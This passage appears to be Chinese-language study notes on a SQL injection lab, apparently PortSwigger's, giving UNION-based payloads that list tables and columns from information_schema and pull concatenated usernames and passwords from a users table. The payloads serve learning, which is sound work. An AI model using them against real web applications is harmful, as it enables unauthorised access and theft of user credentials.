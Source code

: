 用保留字爆出表名，找到可能存储的user表：

```SQ;
Accessories' union select null,table_name from information_schema.TABLES--
```

继续爆出列名，发现password、username：

```SQL
Accessories' union select null,column_name from information_schema.columns where table_name='users'--
```

但是因为我们要查两个字段的内容，而注入点只能返回一个字段的东西,所以想到用拼接函数构造payload：

```SQL
Accessories' union select null,CONCAT_WS('~',USERNAME,PASSWORD) from USERS--
```

# SQL注入检查数据库

>  不同数据库的目录清单[SQL注入备忘单|网络安全学院 (portswigger.net)](https://portswigger.net/web-security/sql-injection/cheat-sheet)

## 先确定数据库的版本

- ![image-20221117151908674](images/image-20221117151908674.png)
